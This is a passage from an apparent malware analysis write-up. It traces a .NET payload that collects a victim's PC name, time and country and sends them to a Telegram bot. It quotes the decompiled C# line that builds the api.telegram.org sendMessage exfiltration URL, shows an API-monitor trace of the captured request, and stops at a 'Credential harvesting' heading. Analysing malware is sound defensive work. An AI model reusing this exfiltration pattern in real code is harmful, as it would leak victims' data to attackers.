 ```csharp
XmlNodeList elementsByTagName = Instance.GetElementsByTagName("CountryName");
XmlNodeList elementsByTagName = Instance.GetElementsByTagName("RegionCode");
XmlNodeList elementsByTagName = Instance.GetElementsByTagName("RegionName");
```

Finaly the payload is attempting to establish a HTTPS communication with a telegram bot :  

```csharp
 string requestUriString = "https://api.telegram.org/bot" + _param0 + "/sendMessage?chat_id=" + _param1 + "&text=" + _param2;
```

Unfortunatly something might be missing in my analysis environnment because the Bot TOKEN as well as the chat ID are missing from the captured request :  

```html
[ * ] [pid 0x66c][tid 0x76c] c:\windows\syswow64\svchost.exe
[ i ] [ Called from Native Image DLL ]
[API] <SealMessage> in [SspiCli.dll] 
[PAR] LSA_SEC_HANDLE ContextHandle         : 0x45b383c
[PAR] ULONG          QualityOfProtection   : 0x0
[PAR] PSecBufferDesc MessageBuffers        : 0x45b5ad4
[FLD]                -> ulVersion = 0x0 (SECBUFFER_VERSION)
[FLD]                -> cBuffers  = 0x4
[FLD]                -> pBuffers  = 0x45b5aec
[FLD]                   -> pBuffers[0]
[FLD]                   -> cbBuffer   = 0x15
[FLD]                   -> BufferType = 0x7 (SECBUFFER_STREAM_HEADER)
[FLD]                   -> pvBuffer   = 0x45b5894
[FLD]                   -> pBuffers[1]
[FLD]                   -> cbBuffer   = 0x150
[FLD]                   -> BufferType = 0x1 (SECBUFFER_DATA)
[FLD]                   -> pvBuffer   = 0x00000000045B58A9
[STR]                   -> "GET /bot/sendMessage?chat_id=&text=%20%0D%0A%0D%0APC%20Name:HOME%0D%0ADate%20and%20Time:%2013/02/2025%20/%2001:18:58%0D%"
[STR]                      "0ACountry%20Name:%20France%0D%0A%5B%20HOME%20Clicked%20on%20the%20File%20If%20you%20see%20nothing%20this's%20mean%20the%"
[STR]                      "20system%20storage's%20empty.%20%5D HTTP/1.1\r\nHost: api.telegram.org\r\nConnection: Keep-Alive\r\n\r\n"
[FLD]                   -> pBuffers[2]
[FLD]                   -> cbBuffer   = 0x40
[FLD]                   -> BufferType = 0x6 (SECBUFFER_STREAM_TRAILER)
[FLD]                   -> pvBuffer   = 0x45b59f9
[FLD]                   -> pBuffers[3]
[FLD]                   -> cbBuffer   = 0x0
[FLD]                   -> BufferType = 0x0 (SECBUFFER_EMPTY)
[FLD]                   -> pvBuffer   = 0x0
[PAR] ULONG          MessageSequenceNumber : 0x0
[RET] 0x72d63857
```

---  

# Credential harvesting
